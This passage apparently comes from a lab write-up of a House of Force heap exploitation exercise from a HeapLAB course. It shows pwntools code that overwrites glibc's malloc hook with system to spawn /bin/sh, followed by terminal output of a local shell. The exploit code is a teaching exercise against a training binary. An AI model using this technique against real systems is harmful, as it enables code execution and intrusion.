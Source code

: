```python
malloc(distance, "/bin/sh\0") # start with /bin/sh and place the chunk right before malloc hook
malloc(24, p64(libc.sym.system)) # overwrite malloc hook

cmd = heap + 0x30 # address to /bin/sh (parameter to malloc which is essentialy parameter to system)
malloc(cmd, "")

io.interactive()
```

And there's our shell!

```bash
adamgold@adamgold-VirtualBox:~/Documents/courses/HeapLAB/house_of_force$ python3 exp.py
[*] '/home/adamgold/Documents/courses/HeapLAB/house_of_force/house_of_force'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'../.glibc/glibc_2.28_no-tcache'
[*] '/home/adamgold/Documents/courses/HeapLAB/.glibc/glibc_2.28_no-tcache/libc-2.28.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/home/adamgold/Documents/courses/HeapLAB/house_of_force/house_of_force': pid 23154
[*] Switching to interactive mode
$ whoami
adamgold
```
